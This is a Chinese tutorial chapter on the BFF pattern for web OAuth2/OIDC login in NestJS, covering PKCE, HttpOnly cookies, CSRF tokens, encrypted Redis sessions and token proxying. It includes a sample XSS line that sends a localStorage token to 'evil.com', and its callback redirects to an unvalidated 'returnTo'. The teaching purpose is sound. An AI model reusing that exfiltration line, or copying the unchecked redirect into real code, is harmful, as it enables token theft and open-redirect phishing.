

# Web 应用接入（BFF 模式）

## 本篇导读

### 核心目标

学完本篇后，你将能够：

- 理解 BFF（Backend For Frontend）模式的架构原理，以及它相对纯前端模式在安全性上的核心优势
- 实现 BFF 服务端完整的 OAuth2/OIDC 授权码流程，包括 state 管理、代码换 Token、用户信息获取
- 掌握 HttpOnly Cookie 的正确配置，用 Cookie 替代前端存储 Token，彻底消除 XSS 窃取 Token 的风险
- 实现 BFF 的 Token 代理机制——前端发出的 API 请求经过 BFF，由 BFF 自动附加 Access Token
- 理解 BFF Session 的设计，包括过期策略、并发控制和注销流程

### 重点与难点

**重点**：

- BFF 的核心价值——将 Token 从浏览器移到服务端，XSS 无法再直接窃取 Token
- Cookie 的安全配置三件套：`HttpOnly`、`Secure`、`SameSite`
- Token 代理的设计——前端只和 BFF 交互，BFF 作为前端和资源服务器之间的可信中间层

**难点**：

- BFF 的 CSRF 防护——使用了 Cookie，就必须防止 CSRF 攻击
- Token 刷新在服务端的管理——BFF 如何在 Access Token 过期时自动刷新，且对前端透明
- 分布式 BFF 下的 Session 一致性——多实例 BFF 下，Session 必须存储在共享的 Redis 中，而非内存

## BFF 模式的架构原理

### 什么是 BFF

BFF（Backend For Frontend，面向前端的后端）这个概念由 SoundCloud 的工程师 Sam Newman 在 2015 年提出。原始场景是为不同客户端（Web、iOS、Android）各自维护专属的后端 API 聚合层。在认证场景中，BFF 扮演的是一个更具体的角色：**替前端持有和管理 Token**。



在这个架构中：

- **SPA** 只和 BFF 交互，发出的请求不携带 Token，只携带 Session Cookie
- **BFF** 是唯一持有 Access Token 和 Refresh Token 的地方，Token 存在服务端的 Redis Session 中
- **Token** 永远不出现在浏览器的任何存储或 JavaScript 代码中

### XSS 不再能窃取 Token

这是 BFF 模式最重要的安全特性。

在纯前端模式中，XSS 攻击者只需要在 JavaScript 中执行：

```javascript
// XSS 攻击者可以在纯前端模式下这样窃取 Token
const token = localStorage.getItem('auth_access_token');
fetch('https://evil.com/steal', { method: 'POST', body: token });
```

在 BFF 模式中，Token 从未出现在浏览器，上述代码什么也拿不到。攻击者能做到的是：

- 以用户身份向 BFF 发起请求（因为浏览器会自动带上 Session Cookie）
- 但无论如何无法 **带走** Token 本身

两种模式在 XSS 场景下的危害对比：

| 场景                           | 纯前端模式                                           | BFF 模式                                             |
| ------------------------------ | ---------------------------------------------------- | ---------------------------------------------------- |
| 攻击者能做什么                 | 窃取 Token 后在任意设备上无限制使用，直到 Token 过期 | 在当前浏览器会话中冒充用户发请求                     |
| 攻击者是否能在另一台设备上使用 | 能（Token 可复制）                                   | 不能（Session Cookie 带 HttpOnly，无法被读取和转移） |
| 攻击窗口                       | Access Token 有效期内 + Refresh Token 有效期内       | 受害者浏览器关闭前，或 BFF Session 过期前            |
| 防御手段                       | CSP、减少 JS 依赖、内存存储                          | 相同，且攻击面本质上更小                             |

### BFF 并非免费的午餐

BFF 模式带来安全提升的同时，也带来额外的成本：

**运维成本**：引入了一个必须高可用的 BFF 服务。BFF 挂了，整个认证流程都中断。

**延迟增加**：每个前端 API 请求都需要经过 BFF 中转，增加了一次服务间网络调用的延迟。

**CSRF 防护**：使用 Cookie 就必须防止 CSRF 攻击（纯前端模式使用 Authorization Header，天然免疫 CSRF）。

**水平扩展复杂**：BFF 的 Session 不能存在内存里，必须使用 Redis 等共享存储，否则多实例 BFF 下，用户的请求被路由到不同实例时 Session 会丢失。

### 适合 BFF 模式的场景

- 对 Token 安全有强要求的应用（金融、医疗、政务系统）
- 本来就有 Node.js BFF 层的现有架构（追加认证功能成本低）
- 需要做 API 聚合和数据编排的场景（BFF 本来就有意义）
- 团队有能力维护服务端组件

如果是纯静态部署、CDN 分发的工具类网站，引入 BFF 的运维成本可能不值得，纯前端模式更合适。

## 服务端完成 OAuth 流程

### BFF 的认证流程时序

```mermaid
sequenceDiagram
    participant Browser as 浏览器（SPA）
    participant BFF as BFF（NestJS）
    participant Redis as Redis
    participant OIDC as OIDC 授权服务器

    Browser->>BFF: GET /auth/login?returnTo=/dashboard
    BFF->>BFF: 生成 code_verifier、code_challenge、state
    BFF->>Redis: 存储 state + code_verifier（TTL 10分钟）
    BFF->>Browser: 302 → OIDC /oauth/authorize?...(附 PKCE 参数)

    Browser->>OIDC: 跟随重定向，显示登录页
    Note over Browser,OIDC: 用户完成登录和授权
    OIDC->>Browser: 302 → BFF /auth/callback?code=AUTH_CODE&state=xxx

    Browser->>BFF: GET /auth/callback?code=AUTH_CODE&state=xxx
    BFF->>Redis: 取出并验证 state，获取 code_verifier
    BFF->>OIDC: POST /oauth/token（code + code_verifier + client_secret）
    Note over BFF,OIDC: BFF 是机密客户端，有 client_secret
    OIDC->>BFF: { access_token, refresh_token, id_token, expires_in }

    BFF->>Redis: 创建 Session，加密存储 Token
    BFF->>Browser: 302 → /dashboard（Set-Cookie: sess_id=xxx; HttpOnly; Secure）

    Browser->>BFF: GET /api/user（Cookie: sess_id=xxx）
    BFF->>Redis: 用 sess_id 取出 Session，获取 Access Token
    BFF->>OIDC: GET /oauth/userinfo（Bearer AT）
    OIDC->>BFF: 用户信息
    BFF->>Browser: 用户信息（不含 Token）
```

与纯前端模式相比，BFF 模式下 BFF 是 **机密客户端（Confidential Client）**，可以持有 `client_secret`，Token 交换在服务端完成，更加安全。

### NestJS BFF 项目结构

```plaintext
bff/
├── src/
│   ├── auth/
│   │   ├── auth.module.ts
│   │   ├── auth.controller.ts       # /auth/login, /auth/callback, /auth/logout
│   │   ├── auth.service.ts          # OIDC 流程逻辑
│   │   ├── pkce.util.ts             # PKCE 工具函数（服务端版本）
│   │   └── session.service.ts       # BFF Session 管理
│   ├── proxy/
│   │   ├── proxy.module.ts
│   │   └── proxy.middleware.ts      # Token 代理中间件
│   ├── redis/
│   │   └── redis.service.ts
│   └── app.module.ts
└── package.json
```

### PKCE 工具函数（服务端）

服务端使用 Node.js 内置的 `crypto` 模块：

```typescript
// src/auth/pkce.util.ts
import { randomBytes, createHash } from 'crypto';

export function generateCodeVerifier(): string {
  return randomBytes(43).toString('base64url');
}

export function generateCodeChallenge(verifier: string): string {
  return createHash('sha256').update(verifier).digest('base64url');
}

export function generateState(): string {
  return randomBytes(32).toString('base64url');
}
```

### 登录端点：发起 OAuth 授权

```typescript
// src/auth/auth.controller.ts
import { Controller, Get, Query, Req, Res } from '@nestjs/common';
import { Request, Response } from 'express';
import { AuthService } from './auth.service';

@Controller('auth')
export class AuthController {
  constructor(private readonly authService: AuthService) {}

  @Get('login')
  async login(
    @Query('returnTo') returnTo: string = '/',
    @Res() res: Response
  ): Promise<void> {
    const authorizeUrl = await this.authService.buildAuthorizeUrl(returnTo);
    res.redirect(authorizeUrl);
  }

  @Get('callback')
  async callback(
    @Query('code') code: string,
    @Query('state') state: string,
    @Query('error') error: string,
    @Res() res: Response
  ): Promise<void> {
    if (error) {
      // 授权服务器返回了错误
      res.redirect(`/?error=${encodeURIComponent(error)}`);
      return;
    }

    const { sessionId, returnTo } = await this.authService.handleCallback(
      code,
      state
    );

    // 设置 Session Cookie
    res.cookie('sess_id', sessionId, {
      httpOnly: true, // JS 无法读取
      secure: true, // 仅 HTTPS 传输
      sameSite: 'lax', // 防 CSRF（见下面详细说明）
      path: '/',
      maxAge: 7 * 24 * 60 * 60 * 1000, // 7 天（毫秒）
    });

    res.redirect(returnTo ?? '/');
  }

  @Get('logout')
  async logout(@Req() req: Request, @Res() res: Response): Promise<void> {
    const sessionId = req.cookies?.['sess_id'];
    if (sessionId) {
      await this.authService.logout(sessionId);
    }

    // 清除 Cookie
    res.clearCookie('sess_id', { path: '/' });
    res.redirect('/');
  }
}
```

### AuthService：核心流程实现

```typescript
// src/auth/auth.service.ts
import { Injectable } from '@nestjs/common';
import { ConfigService } from '@nestjs/config';
import { RedisService } from '../redis/redis.service';
import { SessionService } from './session.service';
import {
  generateCodeVerifier,
  generateCodeChallenge,
  generateState,
} from './pkce.util';

interface OidcConfig {
  issuer: string;
  authorizeEndpoint: string;
  tokenEndpoint: string;
  userinfoEndpoint: string;
  clientId: string;
  clientSecret: string;
  redirectUri: string;
  scopes: string[];
}

interface PkceSession {
  codeVerifier: string;
  state: string;
  returnTo: string;
}

@Injectable()
export class AuthService {
  private readonly oidc: OidcConfig;
  private readonly PKCE_SESSION_TTL = 600; // 10 分钟

  constructor(
    private readonly config: ConfigService,
    private readonly redis: RedisService,
    private readonly sessionService: SessionService
  ) {
    this.oidc = {
      issuer: this.config.getOrThrow('OIDC_ISSUER'),
      authorizeEndpoint: this.config.getOrThrow('OIDC_AUTHORIZE_ENDPOINT'),
      tokenEndpoint: this.config.getOrThrow('OIDC_TOKEN_ENDPOINT'),
      userinfoEndpoint: this.config.getOrThrow('OIDC_USERINFO_ENDPOINT'),
      clientId: this.config.getOrThrow('OIDC_CLIENT_ID'),
      clientSecret: this.config.getOrThrow('OIDC_CLIENT_SECRET'),
      redirectUri: this.config.getOrThrow('OIDC_REDIRECT_URI'),
      scopes: ['openid', 'profile', 'email'],
    };
  }

  // 构造授权 URL，同时在 Redis 中存储 PKCE Session
  async buildAuthorizeUrl(returnTo: string): Promise<string> {
    const codeVerifier = generateCodeVerifier();
    const codeChallenge = generateCodeChallenge(codeVerifier);
    const state = generateState();

    // 将 PKCE 信息存入 Redis（不存在 Cookie 里，防止 Cookie 被篡改）
    const pkceKey = `pkce:${state}`;
    const pkceData: PkceSession = { codeVerifier, state, returnTo };
    await this.redis.setex(
      pkceKey,
      this.PKCE_SESSION_TTL,
      JSON.stringify(pkceData)
    );

    const params = new URLSearchParams({
      response_type: 'code',
      client_id: this.oidc.clientId,
      redirect_uri: this.oidc.redirectUri,
      scope: this.oidc.scopes.join(' '),
      code_challenge: codeChallenge,
      code_challenge_method: 'S256',
      state,
    });

    return `${this.oidc.authorizeEndpoint}?${params.toString()}`;
  }

  // 处理回调：验证 state、换取 Token、创建 BFF Session
  async handleCallback(
    code: string,
    state: string
  ): Promise<{ sessionId: string; returnTo: string }> {
    // 1. 从 Redis 取出并验证 PKCE Session
    const pkceKey = `pkce:${state}`;
    const pkceRaw = await this.redis.get(pkceKey);
    if (!pkceRaw) {
      throw new Error('Invalid or expired state parameter');
    }

    const pkceData = JSON.parse(pkceRaw) as PkceSession;

    // 验证 state 一致性（防 CSRF）
    if (pkceData.state !== state) {
      throw new Error('State mismatch');
    }

    // 立即删除 PKCE Session（防止重放攻击）
    await this.redis.del(pkceKey);

    // 2. 用授权码换取 Token
    const tokenResponse = await this.exchangeCodeForTokens(
      code,
      pkceData.codeVerifier
    );

    // 3. 获取用户信息
    const userInfo = await this.fetchUserInfo(tokenResponse.access_token);

    // 4. 创建 BFF Session
    const sessionId = await this.sessionService.create({
      userId: userInfo.sub,
      user: userInfo,
      accessToken: tokenResponse.access_token,
      refreshToken: tokenResponse.refresh_token,
      accessTokenExpiresAt: Date.now() + (tokenResponse.expires_in - 30) * 1000,
    });

    return { sessionId, returnTo: pkceData.returnTo };
  }

  private async exchangeCodeForTokens(
    code: string,
    codeVerifier: string
  ): Promise<TokenResponse> {
    const response = await fetch(this.oidc.tokenEndpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: new URLSearchParams({
        grant_type: 'authorization_code',
        code,
        client_id: this.oidc.clientId,
        client_secret: this.oidc.clientSecret, // 机密客户端才有这个
        redirect_uri: this.oidc.redirectUri,
        code_verifier: codeVerifier,
      }),
    });

    if (!response.ok) {
      const error = await response.json();
      throw new Error(`Token exchange failed: ${JSON.stringify(error)}`);
    }

    return response.json() as Promise<TokenResponse>;
  }

  private async fetchUserInfo(accessToken: string): Promise<UserInfoClaims> {
    const response = await fetch(this.oidc.userinfoEndpoint, {
      headers: { Authorization: `Bearer ${accessToken}` },
    });

    if (!response.ok) {
      throw new Error('Failed to fetch user info');
    }

    return response.json() as Promise<UserInfoClaims>;
  }

  async logout(sessionId: string): Promise<void> {
    await this.sessionService.destroy(sessionId);
  }
}

interface TokenResponse {
  access_token: string;
  refresh_token: string;
  id_token: string;
  expires_in: number;
  token_type: 'Bearer';
}

interface UserInfoClaims {
  sub: string;
  email: string;
  name: string;
  picture?: string;
}
```

## HttpOnly Cookie 与 CSRF 防护

### Cookie 安全配置详解

BFF 给浏览器设置的 Session Cookie 必须正确配置，三个属性缺一不可：

#### HttpOnly：阻断 JavaScript 读取

```typescript
res.cookie('sess_id', sessionId, {
  httpOnly: true, // 关键！
  // ...
});
```

`HttpOnly` Cookie 只能由浏览器在 HTTP 请求中自动发送，JavaScript 代码（包括 XSS 注入的代码）无法通过 `document.cookie` 读取。

这是 BFF 模式的核心安全保证：即使 XSS 攻击成功，攻击者能通过注入的 JavaScript 读到的是一个空字符串，而不是 Session ID。他们只能在受害者的浏览器当前会话中发起请求，无法把 Session 迁移到另一台机器。

#### Secure：强制 HTTPS 传输

```typescript
res.cookie('sess_id', sessionId, {
  secure: process.env.NODE_ENV === 'production',
  // ...
});
```

`Secure` 属性意味着浏览器只会在 HTTPS 请求中带上这个 Cookie。HTTP 明文传输时，Cookie 会被中间人截获，`HttpOnly` 属性无法阻止这种攻击。

生产环境必须 `secure: true`；开发环境为方便调试可以设为 `false`（但开发环境本身就不是 HTTPS）。

#### SameSite：CSRF 防护的第一道防线

`SameSite` 属性控制浏览器在跨站请求时是否发送 Cookie：

- `SameSite=Strict`：完全禁止跨站发送 Cookie。用户从 `evil.com` 跳转到 `app.example.com` 时，请求不携带 `app.example.com` 的 Cookie。安全性最高，但体验差（从搜索结果或外链点进来时，也不携带 Cookie，用户会发现自己"没有登录"）。
- `SameSite=Lax`（推荐）：允许安全的跨站顶级导航（GET 请求跳转）携带 Cookie，但跨站的 POST/PUT/DELETE 等修改性请求不携带 Cookie。这阻止了大多数 CSRF 攻击（CSRF 通常是伪造 POST 请求），同时保留了正常的外链跳转体验。
- `SameSite=None`：所有跨站请求都携带 Cookie，必须配合 `Secure` 使用。用于嵌入 iframe 等特殊场景，不适合认证场景。

```typescript
res.cookie('sess_id', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'lax', // 推荐配置
  path: '/',
  maxAge: 7 * 24 * 60 * 60 * 1000,
});
```

### CSRF 防护：Double Submit Cookie

虽然 `SameSite=Lax` 能阻止大多数 CSRF 攻击，但有些旧浏览器不支持 `SameSite`，或者某些场景下（如使用 `SameSite=None`）需要额外防护。

**Double Submit Cookie 模式**是最常用的 CSRF Token 方案，无需服务端存储：

原理：

1. 服务端在用户访问时生成一个随机 CSRF Token，以不带 `HttpOnly` 的 Cookie 发给浏览器
2. JavaScript 代码读取这个 Cookie 中的 CSRF Token，并在每个修改性请求（POST/PUT/DELETE）的 Header 中也发送这个值
3. BFF 收到请求时，验证 Cookie 中的 CSRF Token 和 Header 中的值是否一致
4. 攻击者无法构造这个一致性（他们的恶意页面无法读取其他域的 Cookie）

```typescript
// src/auth/csrf.middleware.ts
import { Injectable, NestMiddleware, ForbiddenException } from '@nestjs/common';
import { Request, Response, NextFunction } from 'express';
import { randomBytes } from 'crypto';

@Injectable()
export class CsrfMiddleware implements NestMiddleware {
  use(req: Request, res: Response, next: NextFunction): void {
    // GET、HEAD、OPTIONS 是安全请求，不需要 CSRF 验证
    const safeMethods = ['GET', 'HEAD', 'OPTIONS'];
    if (safeMethods.includes(req.method)) {
      // 确保 CSRF Token Cookie 存在（首次访问时设置）
      if (!req.cookies['csrf_token']) {
        const csrfToken = randomBytes(32).toString('hex');
        res.cookie('csrf_token', csrfToken, {
          httpOnly: false, // 必须允许 JS 读取！
          secure: process.env.NODE_ENV === 'production',
          sameSite: 'lax',
          path: '/',
        });
      }
      next();
      return;
    }

    // 对修改性请求验证 CSRF
    const cookieToken = req.cookies['csrf_token'];
    const headerToken = req.headers['x-csrf-token'];

    if (!cookieToken || !headerToken || cookieToken !== headerToken) {
      throw new ForbiddenException('Invalid CSRF token');
    }

    next();
  }
}
```

在 React 前端，封装一个带有 CSRF Token 的请求工具：

```typescript
// src/api/client.ts（前端代码）

function getCsrfToken(): string {
  // 从 Cookie 中读取（CSRF Cookie 没有 HttpOnly，JS 可以读取）
  return (
    document.cookie
      .split('; ')
      .find((c) => c.startsWith('csrf_token='))
      ?.split('=')[1] ?? ''
  );
}

export async function apiRequest(
  path: string,
  options: RequestInit = {}
): Promise<Response> {
  const method = options.method?.toUpperCase() ?? 'GET';
  const modifyingMethods = ['POST', 'PUT', 'PATCH', 'DELETE'];

  const headers: HeadersInit = {
    'Content-Type': 'application/json',
    ...options.headers,
  };

  // 修改性请求带上 CSRF Token
  if (modifyingMethods.includes(method)) {
    (headers as Record<string, string>)['x-csrf-token'] = getCsrfToken();
  }

  return fetch(`/api${path}`, {
    ...options,
    credentials: 'include', // 必须！让浏览器在跨域时也发送 Cookie
    headers,
  });
}
```

## BFF Session 设计

### Session 数据结构

BFF Session 存储在 Redis 中，包含用户信息和 Token。Token 应该加密存储（防止 Redis 被攻击时直接泄露 Token）：

```typescript
// src/auth/session.service.ts
import { Injectable } from '@nestjs/common';
import { RedisService } from '../redis/redis.service';
import {
  randomBytes,
  createCipheriv,
  createDecipheriv,
  scryptSync,
} from 'crypto';

interface SessionData {
  userId: string;
  user: {
    id: string;
    email: string;
    name: string;
    avatar?: string;
  };
  // 加密存储的 Token
  encryptedAccessToken: string;
  encryptedRefreshToken: string;
  accessTokenExpiresAt: number;
  createdAt: number;
  lastAccessedAt: number;
}

@Injectable()
export class SessionService {
  private readonly SESSION_TTL = 7 * 24 * 60 * 60; // 7 天（秒）
  private readonly KEY_PREFIX = 'bff:session:';

  // 加密密钥（从环境变量读取，32 字节）
  private readonly encryptionKey: Buffer;

  constructor(private readonly redis: RedisService) {
    const keyMaterial = process.env.SESSION_ENCRYPTION_KEY ?? '';
    // 用 scrypt 从密钥材料派生固定长度的 AES-256 密钥
    this.encryptionKey = scryptSync(keyMaterial, 'bff-session-salt', 32);
  }

  async create(params: {
    userId: string;
    user: SessionData['user'];
    accessToken: string;
    refreshToken: string;
    accessTokenExpiresAt: number;
  }): Promise<string> {
    const sessionId = randomBytes(32).toString('base64url');
    const now = Date.now();

    const sessionData: SessionData = {
      userId: params.userId,
      user: params.user,
      encryptedAccessToken: this.encrypt(params.accessToken),
      encryptedRefreshToken: this.encrypt(params.refreshToken),
      accessTokenExpiresAt: params.accessTokenExpiresAt,
      createdAt: now,
      lastAccessedAt: now,
    };

    await this.redis.setex(
      `${this.KEY_PREFIX}${sessionId}`,
      this.SESSION_TTL,
      JSON.stringify(sessionData)
    );

    return sessionId;
  }

  async get(sessionId: string): Promise<SessionData | null> {
    const raw = await this.redis.get(`${this.KEY_PREFIX}${sessionId}`);
    if (!raw) return null;

    const session = JSON.parse(raw) as SessionData;

    // 更新最后访问时间，同时续期 TTL（滑动过期）
    session.lastAccessedAt = Date.now();
    await this.redis.setex(
      `${this.KEY_PREFIX}${sessionId}`,
      this.SESSION_TTL,
      JSON.stringify(session)
    );

    return session;
  }

  async getAccessToken(sessionId: string): Promise<string | null> {
    const session = await this.get(sessionId);
    if (!session) return null;
    return this.decrypt(session.encryptedAccessToken);
  }

  async getRefreshToken(sessionId: string): Promise<string | null> {
    const session = await this.get(sessionId);
    if (!session) return null;
    return this.decrypt(session.encryptedRefreshToken);
  }

  async updateTokens(
    sessionId: string,
    accessToken: string,
    refreshToken: string,
    accessTokenExpiresAt: number
  ): Promise<void> {
    const session = await this.get(sessionId);
    if (!session) return;

    session.encryptedAccessToken = this.encrypt(accessToken);
    session.encryptedRefreshToken = this.encrypt(refreshToken);
    session.accessTokenExpiresAt = accessTokenExpiresAt;

    await this.redis.setex(
      `${this.KEY_PREFIX}${sessionId}`,
      this.SESSION_TTL,
      JSON.stringify(session)
    );
  }

  async destroy(sessionId: string): Promise<void> {
    await this.redis.del(`${this.KEY_PREFIX}${sessionId}`);
  }

  // AES-256-GCM 加密（认证加密，防止密文被篡改）
  private encrypt(plaintext: string): string {
    const iv = randomBytes(12); // GCM 推荐 12 字节 IV
    const cipher = createCipheriv('aes-256-gcm', this.encryptionKey, iv);

    const encrypted = Buffer.concat([
      cipher.update(plaintext, 'utf8'),
      cipher.final(),
    ]);
    const authTag = cipher.getAuthTag();

    // 将 iv + authTag + encrypted 拼在一起，用 base64url 编码存储
    return Buffer.concat([iv, authTag, encrypted]).toString('base64url');
  }

  private decrypt(ciphertext: string): string {
    const buf = Buffer.from(ciphertext, 'base64url');
    const iv = buf.subarray(0, 12);
    const authTag = buf.subarray(12, 28);
    const encrypted = buf.subarray(28);

    const decipher = createDecipheriv('aes-256-gcm', this.encryptionKey, iv);
    decipher.setAuthTag(authTag);

    return decipher.update(encrypted) + decipher.final('utf8');
  }
}
```

### 为什么要加密存储 Token

Redis 通常被视为受信任的内部存储，但"深度防御"原则要求我们不产生单点信任：

- 如果 Redis 暴露在不安全的网络中（配置错误），明文 Token 直接泄露
- 内部人员攻击：有 Redis 权限的人员可以读取所有用户的 Token
- 加密成本很低（AES 是硬件级加速），没有理由不加密

AES-256-GCM 是推荐的选择：

- **AES-256**：目前最强的对称加密算法之一，256 位密钥
- **GCM 模式**：Galois/Counter Mode，认证加密（AEAD）——不仅加密，还用 `authTag` 保证密文不被篡改
- 每次加密使用随机 IV（Initialization Vector），相同明文每次密文不同，防止模式分析

## Token 代理

### 代理的设计思路

BFF 的核心功能之一是作为前端和业务 API 之间的代理。前端不需要知道业务 API 的地址，也不需要管理 Token——BFF 根据前端请求中携带的 Session Cookie，取出 Access Token，代理转发给业务 API。


### Token 自动刷新中间件

在代理请求前，BFF 检查 Session 中的 Access Token 是否临近过期，如果是则自动刷新：

```typescript
// src/proxy/token-refresh.middleware.ts
import {
  Injectable,
  NestMiddleware,
  UnauthorizedException,
} from '@nestjs/common';
import { Request, Response, NextFunction } from 'express';
import { SessionService } from '../auth/session.service';
import { ConfigService } from '@nestjs/config';

@Injectable()
export class TokenRefreshMiddleware implements NestMiddleware {
  // 并发刷新锁：sessionId → Promise<void>
  private refreshLocks = new Map<string, Promise<void>>();

  constructor(
    private readonly sessionService: SessionService,
    private readonly config: ConfigService
  ) {}

  async use(req: Request, res: Response, next: NextFunction): Promise<void> {
    const sessionId = req.cookies?.['sess_id'];
    if (!sessionId) {
      throw new UnauthorizedException('No session');
    }

    const session = await this.sessionService.get(sessionId);
    if (!session) {
      throw new UnauthorizedException('Session expired or invalid');
    }

    // 提前 60 秒检查过期（留出充足的刷新时间）
    const needsRefresh = session.accessTokenExpiresAt - Date.now() < 60_000;

    if (needsRefresh) {
      await this.refreshWithLock(sessionId);
    }

    // 将 sessionId 挂到 req 上，供后续中间件/处理器使用
    req['sessionId'] = sessionId;
    next();
  }

  private async refreshWithLock(sessionId: string): Promise<void> {
    // 并发刷新防护：同一 session 的多个并发请求只发起一次刷新
    const existingLock = this.refreshLocks.get(sessionId);
    if (existingLock) {
      return existingLock;
    }

    const refreshPromise = this.doRefresh(sessionId).finally(() => {
      this.refreshLocks.delete(sessionId);
    });

    this.refreshLocks.set(sessionId, refreshPromise);
    return refreshPromise;
  }

  private async doRefresh(sessionId: string): Promise<void> {
    const refreshToken = await this.sessionService.getRefreshToken(sessionId);
    if (!refreshToken) {
      throw new UnauthorizedException('No refresh token');
    }

    const tokenEndpoint = this.config.getOrThrow('OIDC_TOKEN_ENDPOINT');
    const clientId = this.config.getOrThrow('OIDC_CLIENT_ID');
    const clientSecret = this.config.getOrThrow('OIDC_CLIENT_SECRET');

    const response = await fetch(tokenEndpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: new URLSearchParams({
        grant_type: 'refresh_token',
        refresh_token: refreshToken,
        client_id: clientId,
        client_secret: clientSecret,
      }),
    });

    if (!response.ok) {
      // Refresh Token 失效，销毁 Session，强制重新登录
      await this.sessionService.destroy(sessionId);
      throw new UnauthorizedException(
        'Refresh token expired, please login again'
      );
    }

    const tokens: {
      access_token: string;
      refresh_token: string;
      expires_in: number;
    } = await response.json();

    // 更新 Session 中的 Token
    await this.sessionService.updateTokens(
      sessionId,
      tokens.access_token,
      tokens.refresh_token,
      Date.now() + (tokens.expires_in - 30) * 1000
    );
  }
}
```

### 代理中间件：转发请求

将前端请求代理到业务 API，自动注入 Access Token：

```typescript
// src/proxy/proxy.middleware.ts
import { Injectable, NestMiddleware } from '@nestjs/common';
import { Request, Response, NextFunction } from 'express';
import { SessionService } from '../auth/session.service';
import { ConfigService } from '@nestjs/config';

@Injectable()
export class ProxyMiddleware implements NestMiddleware {
  private readonly apiBaseUrl: string;

  constructor(
    private readonly sessionService: SessionService,
    private readonly config: ConfigService
  ) {
    this.apiBaseUrl = this.config.getOrThrow('UPSTREAM_API_BASE_URL');
  }

  async use(req: Request, res: Response, next: NextFunction): Promise<void> {
    const sessionId = req['sessionId'] as string; // TokenRefreshMiddleware 设置的
    const accessToken = await this.sessionService.getAccessToken(sessionId);

    if (!accessToken) {
      res.status(401).json({ error: 'Unauthorized' });
      return;
    }

    // 构造转发到业务 API 的请求
    const targetUrl = `${this.apiBaseUrl}${req.path}`;

    // 过滤掉不应该透传给业务 API 的 Header
    const forwardHeaders: Record<string, string> = {
      Authorization: `Bearer ${accessToken}`,
      'Content-Type': req.headers['content-type'] ?? 'application/json',
      'X-Forwarded-For': req.ip ?? '',
      'X-Request-ID': req.headers['x-request-id']?.toString() ?? '',
    };

    const proxyResponse = await fetch(targetUrl, {
      method: req.method,
      headers: forwardHeaders,
      body: ['GET', 'HEAD'].includes(req.method)
        ? undefined
        : JSON.stringify(req.body),
    });

    // 将业务 API 的响应透传给前端
    res.status(proxyResponse.status);

    // 透传业务 API 返回的响应头（过滤部分不应透传的头）
    const skipHeaders = new Set([
      'transfer-encoding',
      'connection',
      'keep-alive',
    ]);
    proxyResponse.headers.forEach((value, key) => {
      if (!skipHeaders.has(key.toLowerCase())) {
        res.setHeader(key, value);
      }
    });

    const responseBody = await proxyResponse.text();
    res.send(responseBody);
  }
}
```

在模块中注册中间件，确保 Token 刷新中间件在代理中间件之前执行：

```typescript
// src/proxy/proxy.module.ts
import {
  Module,
  NestModule,
  MiddlewareConsumer,
  RequestMethod,
} from '@nestjs/common';
import { TokenRefreshMiddleware } from './token-refresh.middleware';
import { ProxyMiddleware } from './proxy.middleware';

@Module({})
export class ProxyModule implements NestModule {
  configure(consumer: MiddlewareConsumer): void {
    consumer
      .apply(
        TokenRefreshMiddleware, // 先刷新 Token
        ProxyMiddleware // 再代理请求
      )
      .forRoutes({ path: '/api/*', method: RequestMethod.ALL });
  }
}
```

### 为前端提供用户信息端点

前端需要知道当前用户是谁，BFF 提供一个 `/auth/me` 端点，从 Session 中读取用户信息返回（不返回 Token）：

```typescript
// src/auth/auth.controller.ts（补充）

@Get('me')
async getCurrentUser(
  @Req() req: Request,
  @Res() res: Response,
): Promise<void> {
  const sessionId = req.cookies?.['sess_id'];
  if (!sessionId) {
    res.status(401).json({ error: 'Not authenticated' });
    return;
  }

  const session = await this.sessionService.get(sessionId);
  if (!session) {
    res.status(401).json({ error: 'Session expired' });
    return;
  }

  // 只返回用户信息，不返回 Token
  res.json({ user: session.user });
}
```

## 前端：与 BFF 集成

### 认证状态管理

前端不再持有 Token，改为向 BFF 查询登录状态：

```typescript
// src/auth/auth.ts（前端代码）

// 检查是否已登录（向 BFF 发请求）
export async function checkAuthStatus(): Promise<UserInfo | null> {
  const response = await fetch('/auth/me', {
    credentials: 'include', // 携带 Session Cookie
  });

  if (response.status === 401) {
    return null;
  }

  if (!response.ok) {
    throw new Error('Failed to check auth status');
  }

  const data = await response.json();
  return data.user as UserInfo;
}

// 跳转到 BFF 的登录端点
export function startLogin(returnTo?: string): void {
  const params = new URLSearchParams({
    returnTo: returnTo ?? window.location.pathname,
  });
  window.location.href = `/auth/login?${params.toString()}`;
}

// 请求 BFF 登出
export async function logout(): Promise<void> {
  await fetch('/auth/logout', {
    method: 'GET',
    credentials: 'include',
  });
  // BFF 会清除 Cookie 并重定向，但如果是 fetch 请求，手动跳转
  window.location.href = '/';
}
```

```typescript
// src/auth/AuthProvider.tsx（前端 React 代码）
import { createContext, useContext, useEffect, useState } from 'react';
import { checkAuthStatus, startLogin, logout } from './auth';

interface AuthContextValue {
  user: UserInfo | null;
  isLoading: boolean;
  isAuthenticated: boolean;
  login: (returnTo?: string) => void;
